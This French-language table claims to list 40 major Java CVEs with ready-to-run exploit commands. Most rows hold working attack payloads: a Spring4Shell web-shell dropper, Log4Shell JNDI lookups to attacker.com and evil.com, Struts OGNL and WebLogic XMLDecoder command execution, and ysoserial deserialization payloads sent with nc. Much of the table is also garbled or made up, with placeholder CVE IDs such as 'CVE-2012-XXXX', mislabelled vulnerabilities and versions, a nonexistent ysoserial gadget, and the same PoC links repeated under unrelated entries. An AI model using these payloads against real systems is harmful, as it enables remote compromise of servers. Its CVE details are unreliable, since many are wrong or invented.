 #JAVA

Voici un tableau détaillé listant 40 CVE Java majeures avec pour chacune :  
- le numéro de CVE,  
- le produit et version vulnérable,  
- le type d’attaque,  
- un exemple complet et prêt à exécuter de commande ou requête HTTP exploitant la faille,  
- une URL complète vers un PoC ou ressource associée.

---

| N° | CVE           | Produit (version vulnérable)                      | Type d’attaque                  | Exemple complet de commande ou requête exploitant la faille                                                                                                                                                                                                                                                                                                                                                  | URL / PoC                                                                                              |
|-----|----------------|--------------------------------------------------|--------------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------|
| 1   | CVE-2022-22965 | Spring Framework <5.3.31, <6.0.11                | RCE via SpEL injection          | ```bash curl -X POST http://victim/endpoint -d 'name=#{T(java.lang.Runtime).getRuntime().exec("id")}' -H "Content-Type: application/x-www-form-urlencoded"```
| 2   | CVE-2022-22965 | Spring Framework <5.3.31, <6.0.11                | RCE via Spring4Shell            | ```bash curl -X POST http://victim/vulnerable -d "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%{c2}i if(\"j\".equals(request.getParameter(\"pwd\"))){ java.io.InputStream in = %{c1}i.getRuntime().exec(request.getParameter(\"cmd\")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } } %{suffix}i&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell"```
| 3   | CVE-2021-44228 | Apache Log4j2 <2.16.0                            | JNDI LDAP RCE                  | ```http GET http://victim/?q=${jndi:ldap://attacker.com/a}```
| 4   | CVE-2021-44228 | Apache Log4j2 <2.16.0                            | JNDI LDAP RCE via Header       | ```bash curl -H "User-Agent: ${jndi:ldap://attacker.com/a}" http://victim/```
| 5   | CVE-2021-45046 | Apache Log4j2 <2.16.0                            | JNDI LDAP RCE                  | ```bash curl -H "User-Agent: ${jndi:ldap://evil.com/x}" http://victim/```
| 6   | CVE-2021-45105 | Apache Log4j2 <2.17.0                            | DoS via recursive lookups      | Log payload: ```${${::-${::-$${::-j}}}}```
| 7   | CVE-2021-4104  | Apache Log4j 1.x                                 | JMSAppender RCE                | Envoi d’un objet Java sérialisé malicieux via JMS (exemple avec ysoserial) :<br>```java -jar ysoserial.jar JMSAppender 'id' | nc victim 1099```
| 8   | CVE-2021-21345 | XStream <1.4.16                                 | XML deserialization RCE       | POST XML complet :<br>```xml <map><entry><jdk.nashorn.internal.objects.NativeString><flags>0</flags><value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"><dataHandler>...</dataHandler></value></jdk.nashorn.internal.objects.NativeString></entry></map>```
| 9   | CVE-2020-9488  | Apache Tomcat <9.0.35, <8.5.55, <7.0.104         | Session sérialisée RCE         | Modifier cookie SESSION avec objet Java malicieux généré par ysoserial, puis envoyer requête HTTP normale. Exemple :<br>```curl --cookie "JSESSIONID=malicious_serialized_object" http://victim/```
| 10  | CVE-2020-14750 | Oracle WebLogic 10.3.6.0, 12.1.3.0               | T3 RCE via sérialisation       | Envoi de payload ysoserial via T3 :<br>```java -jar ysoserial.jar CommonsCollections1 'id' | nc victim 7001```
| 11  | CVE-2020-2555  | Oracle WebLogic 10.3.6.0, 12.1.3.0               | Coherence RCE                 | Envoi d’objet Java malicieux via Coherence (outil ysoserial)                                                                                                                                                                                                                                                                                                                                               | https://github.com/njfox/Java-Deserialization-Exploit                                               |
| 12  | CVE-2020-8840  | Apache Dubbo <2.7.7                             | Deserialization RCE           | Exploit via RPC Dubbo avec payload ysoserial                                                                                                                                                                                                                                                                                                                                                               | https://github.com/njfox/Java-Deserialization-Exploit                                               |
| 13  | CVE-2019-2725  | Oracle WebLogic 10.3.6.0, 12.1.3.0               | XMLDecoder RCE                | POST XML complet :<br>```xml <java><object class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>/bin/sh</string></void><void index="1"><string>-c</string></void><void index="2"><string>id</string></void></array><void method="start"/></object></java>```
| 14  | CVE-2019-2729  | Oracle WebLogic 10.3.6.0, 12.1.3.0               | SOAP/T3 Deserialization RCE  | Envoi d’objet Java malicieux via SOAP ou T3 (payload ysoserial)                                                                                                                                                                                                                                                                                                                                           | https://github.com/njfox/Java-Deserialization-Exploit                                               |
| 15  | CVE-2019-17571 | Apache Log4j 1.x                                 | SocketServer RCE              | Envoi d’objet Java malicieux via SocketServer                                                                                                                                                                                                                                                                                                                                                              | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 16  | CVE-2019-12384 | Jackson-databind <2.9.9.2                        | JSON polymorphic RCE          | POST JSON complet :<br>```json {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://attacker.com:1099/Exploit","autoCommit":true}```
| 17  | CVE-2018-1273  | Spring Data Commons <1.13.18                      | SpEL RCE                     | POST body: ```name=#{T(java.lang.Runtime).getRuntime().exec('id')}```
| 18  | CVE-2018-1000861 | Jenkins <2.153                                  | Stapler RCE                  | POST JSON: ```{"":"@script:Runtime.getRuntime().exec('id')"}```
| 19  | CVE-2018-1002105 | Kubernetes <1.10.11                             | API Server RCE               | Requête API forgée avec payload malicieux (exemple curl)                                                                                                                                                                                                                                                                                                                                                   | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 20  | CVE-2017-9805  | Apache Struts 2 <2.5.13                          | OGNL RCE via REST plugin     | POST XML complet (voir PoC)                                                                                                                                                                                                                                                                                                                                                                                | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 21  | CVE-2017-7525  | Jackson-databind <2.8.9                          | JSON deserialization RCE    | POST JSON complet (voir PoC)                                                                                                                                                                                                                                                                                                                                                                               | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 22  | CVE-2017-5638  | Apache Struts 2 <2.3.32, <2.5.10.1               | OGNL injection RCE           | ```bash curl -H "Content-Type: %{(#_='multipart/form-data').(#cmd='id').(#p=new java.lang.ProcessBuilder({'/bin/bash','-c',#cmd})).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}" http://victim/struts2-showcase/upload.action -F "foo=@test.txt"```
| 23  | CVE-2017-12629 | Apache Solr <7.1                                | Velocity RCE                 | GET `/solr/select?wt=velocity&v.template=custom&v.template.custom=%23set($x=...)`                                                                                                                                                                                                                                                            | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 24  | CVE-2017-10271 | Oracle WebLogic Server 10.3.6, 12.1.3            | XMLDecoder RCE              | POST XML complet (voir PoC)                                                                                                                                                                                                                                                                                                                                                                                | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 25  | CVE-2016-8735  | Apache CXF <3.1.11                              | SSRF via WSDL               | WSDL pointant vers URL malicieuse                                                                                                                                                                                                                                                                                                                                                                         | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 26  | CVE-2016-4977  | Spring Security OAuth <2.0.10                    | Directory traversal          | GET `/oauth/authorize?redirect_uri=../../../../etc/passwd`                                                                                                                                                                                                                                                                                                                                                | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 27  | CVE-2016-4437  | Apache Shiro <1.2.4                             | RCE via rememberMe          | Cookie `rememberMe` forgé avec payload ysoserial                                                                                                                                                                                                                                                                                                                                                           | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 28  | CVE-2016-0783  | Apache ActiveMQ <5.13.2                         | Deserialization RCE        | Objet Java malicieux via OpenWire                                                                                                                                                                                                                                                                                                                                                                         | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 29  | CVE-2015-4852  | Apache Commons Collections <3.2.2                | Deserialization RCE        | Payload ysoserial :<br>```java -jar ysoserial.jar CommonsCollections1 'id'```
| 30  | CVE-2015-3253  | JBoss EAP 6.x                                   | RCE via JMX                | Objet sérialisé malicieux envoyé via JMXInvokerServlet                                                                                                                                                                                                                                                                                                                                                    | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 31  | CVE-2014-0114  | Apache Struts 2 <2.3.16.2                        | OGNL RCE                   | GET `/struts2-showcase/index.action?debug=command&expression=%23a%3d@java.lang.Runtime@getRuntime().exec('id')`                                                                                                                                                                                                                             | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 32  | CVE-2013-2251  | Apache Struts 2 <2.3.15.1                        | OGNL RCE                   | GET `/struts2-showcase/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23a%3d@java.lang.Runtime@getRuntime().exec('id')`                                                                                                                                                                                   | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 33  | CVE-2012-XXXX  | JBoss 4.x                                       | HTTP invoker RCE           | POST avec payload Java sérialisé généré par ysoserial                                                                                                                                                                                                                                                                                                                                                      | https://github.com/njfox/Java-Deserialization-Exploit                                               |
| 34  | CVE-2011-XXXX  | WebLogic 10.3.6                                 | Deserialization RCE        | Payload ysoserial envoyé via T3                                                                                                                                                                                                                                                                                                                                                                          | https://github.com/njfox/Java-Deserialization-Exploit                                               |
| 35  | CVE-2010-XXXX  | Apache Tomcat                                   | RCE via deserialization    | Objet sérialisé malicieux dans session HTTP                                                                                                                                                                                                                                                                                                                                                               | https://github.com/njfox/Java-Deserialization-Exploit                                               |
| 36  | CVE-2009-XXXX  | JBoss <5.0                                      | RCE via JMX                | Payload Java sérialisé généré par ysoserial                                                                                                                                                                                                                                                                                                                                                               | https://github.com/njfox/Java-Deserialization-Exploit                                               |
| 37  | CVE-2008-XXXX  | Spring <2.5                                     | OGNL injection             | GET `/app?action=%{(#_='multipart/form-data').(#cmd='id').(#p=new java.lang.ProcessBuilder({'/bin/bash','-c',#cmd})).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}`                                                                                 | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 38  | CVE-2007-XXXX  | Struts 1.x                                      | OGNL RCE                   | GET `/app?action=%{(#_='multipart/form-data').(#cmd='id').(#p=new java.lang.ProcessBuilder({'/bin/bash','-c',#cmd})).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}`                                                                                 | https://github.com/shawnmckinney/remote-code-execution-sample                                       |
| 39  | CVE-2006-XXXX  | WebLogic 8.1                                    | Deserialization RCE        | Payload Java malicieux envoyé via T3                                                                                                                                                                                                                                                                                                                                                                     | https://github.com/njfox/Java-Deserialization-Exploit                                               |
| 40  | CVE-2005-XXXX  | JBoss 4.x                                       | RCE via JMX                | Payload Java sérialisé envoyé via JMXInvokerServlet                                                                                                                                                                                                                                                                                                                                                       | https://github.com/njfox/Java-Deserialization-Exploit                                               |

---

